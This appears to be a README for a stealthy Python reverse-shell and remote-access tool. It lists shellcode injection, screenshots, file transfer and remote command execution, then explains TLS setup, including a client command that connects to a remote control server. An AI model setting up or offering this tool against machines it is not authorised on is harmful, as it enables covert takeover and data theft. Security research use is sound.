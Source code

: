 ### 🎉 Features

*   It's stealthy
*   __TLS__ support 🔑
    -   Either using _on-the-fly_ certificates or
    -   By specifying a cert/key pair (_more details below..._)
*   Proxy support on client.
*   Directory navigation (`cd` command and variants).
*   `download/upload/screenshot` commands available.
*   shellcode injection 💉 (_for the time it is available only for windows x86 systems_)
    -   Either shellcode injection into another process by specifying its PID
    -   or shellcode injection in the current running process
*   Pipelining (`|`) & chained commands (`;`) are supported
*   Support for every non-interactive (_like gdb, top etc..._) command
*   Server is both HTTP & HTTPS capable.
*   It comes with two built-in servers 🌐 so far... _flask built-in_ & _tornado-WSGI_ while it's also compatible with other production servers like [`gunicorn`](http://gunicorn.org/) and [`Nginx`](https://www.nginx.com/).
*   Both `server.py` and `client.py` are easily extensible.
*   Since the most functionality comes from server's endpoint-design it's very easy to write a client in any other language _e.g. java, GO etc..._

### Details
* * *

#### TLS 🔑

__Server-side:__
Unless `--http` option is specified, by default `server.py` is HTTPS using _on-the-fly_ certificates, since on-the-fly certificates are a built-in flask-feature. But if `-s tornado` option is specified in order to make the server use TLS, a `--cert` and a `--key` option must be specified like so:

```
python server.py -s tornado --cert /path/cert.pem --key /path/key.pem
```

Either "real" certificates can be used or another way to generate a cert/key pair is using [openssl](https://www.openssl.org/) like so:

```
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 365
```

A cert/key pair can also be used with the flask-server:
```
python server.py --cert /path/cert.pem --key /path/key.pem
```

> ⚠️ If the server is using TLS, then by design the client can't use `http://...` to connect to the server, but must explicitly use `https` instead.

__Client-side:__
By default client's SSL verification is disabled, unless:
*   either the `--cert` parameter is specified e.g.:
    ```
    python client.py -s https://192.168.10.7:5000 --cert /path/cert.pem
    ```
*   or the `CERT` variable, instead of the default `None` value is set beforehand with a valid certificate e.g.:
    ```python
    CERT = """
    -----BEGIN CERTIFICATE-----
    MIIBoDCCAUoCAQAwDQYJKoZIhvcNAQEEBQAwYzELMAkGA1UEBhMCQVUxEzARBgNV
    BAgTClF1ZWVuc2xhbmQxGjAYBgNVBAoTEUNyeXB0U29mdCBQdHkgTHRkMSMwIQYD
    VQQDExpTZXJ2ZXIgdGVzdCBjZXJ0ICg1MTIgYml0KTAeFw05NzA5MDkwMzQxMjZa
    ...
    -----END CERTIFICATE-----